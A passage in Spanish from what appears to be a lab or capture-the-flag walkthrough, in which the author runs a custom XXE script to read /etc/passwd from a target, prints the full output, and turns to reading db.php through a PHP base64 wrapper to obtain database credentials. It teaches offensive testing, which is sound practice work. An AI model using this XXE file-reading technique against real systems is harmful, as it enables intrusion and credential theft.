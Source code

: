 Ejecutamos el script con el objetivo de obtener el contenido del archivo `/etc/passwd` y verificar que la herramienta funcione correctamente. Al ejecutar el comando, confirmamos que el script devuelve con éxito el contenido del archivo, lo que demuestra que, al proporcionar la ruta de cualquier archivo, el proceso se realiza automáticamente y obtenemos el resultado esperado.

En el resultado obtenido, comprobamos la existencia de un usuario llamado `developer` que dispone de `bash`.

```bash
❯ python3 xxe_lfi.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Ahora que tenemos la capacidad de leer archivos `PHP` a través de `XXE` combinado con el `wrapper PHP` en `Base64` gracias al script que hemos implementado, podemos automatizar la lectura de archivos sensibles en la aplicación. En la enumeración de la página web, recordamos que, al usar herramientas como `Gobuster`, encontramos una página llamada `db.php`. Este archivo podría contener información valiosa, como la configuración de la base de datos o incluso las credenciales de acceso.

Al ejecutar el script sobre `db.php`, efectivamente hemos obtenido el siguiente contenido, que incluye las credenciales de la base de datos:

